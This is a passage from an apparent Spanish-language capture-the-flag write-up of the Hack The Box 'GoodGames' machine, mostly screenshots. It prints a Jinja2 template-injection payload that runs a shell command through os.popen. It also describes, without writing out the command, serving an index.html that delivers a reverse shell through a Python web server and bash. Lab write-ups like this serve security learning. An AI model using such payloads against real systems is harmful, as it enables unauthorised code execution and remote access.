 <img src="/writeups/assets/img/Goodgames-htb/8.png" alt="">

<img src="/writeups/assets/img/Goodgames-htb/9.png" alt="">


Es posible llegar a inyectar comandos

{%raw%}
```null
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{%endraw%}

<img src="/writeups/assets/img/Goodgames-htb/10.png" alt="">

Creo un archivo ```index.html``` que se encarge de enviarme una reverse shell, para compartirlo con un servicio HTTP con python y cargarlo en una bash
